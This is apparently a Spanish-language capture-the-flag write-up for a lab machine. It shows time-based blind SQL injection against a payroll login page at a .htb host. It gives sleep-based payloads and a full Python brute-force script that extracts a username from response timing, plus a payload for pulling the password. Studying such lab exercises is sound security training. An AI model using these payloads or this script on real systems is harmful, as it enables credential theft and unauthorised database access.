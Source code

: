 Lo primero que haremos será averiguar por qué letra empieza el usuario. Usaremos el siguiente payload: **' or (select case when hex(substring(username,1,1))=hex('E') then sleep(5) end from users)-- -**. 

La letra sabemos que es la **E**. Ahora descubriremos cuantas tiene: **' or (select case when hex(substring(username,1,1))=hex('E') and length(username)>=10 then sleep(5) end from users)-- -** <br>Probando varios valores nos daremos cuenta que tiene 10 letras. Es momento de scriptear.

Con esto sacaremos el nombre:
```python
#!/usr/bin/python3

from pwn import *
import requests, pdb, sys, time, signal, string


def def_handler(sig, frame):
    print("\n\nSaliendo...\n")
    sys.exit(1)

# Ctrl C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url="http://preprod-payroll.trick.htb/ajax.php?action=login"
characters = string.ascii_lowercase + string.ascii_uppercase

def makeRequest():
    
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando Fuerza bruta")
    
    time.sleep(2)
    
    username = ''
    p2 = log.progress("Username")

    for position in range(1,11):
        for character in characters:
            post_data = {
                    'username':"""' or (select case when hex(substring(username,%d,1))=hex('%s') then sleep(1.5) end from users)-- -""" %(position, character),
                    'password': 'test'
                }
            p1.status(post_data['username'])

            time_start = time.time()

            r = requests.post(url=login_url, data=post_data)

            time_end = time.time()

            if time_end - time_start > 1.5:
                username += character
                p2.status(username)
                break

if __name__ == '__main__':

    makeRequest()
```
Para la contraseña habria que descubrir el tamaño que tiene como hicimos con el usuario y cambiar el payload por el siguiente: **' or (select case when hex(substring(password,%d,1))=hex('%s') then sleep(1.5) end from users where username='Enemigosss')-- -** Para hacerlo más real habria que añadir a la variable **characters** símbolos y números pero esta vez no será necesario.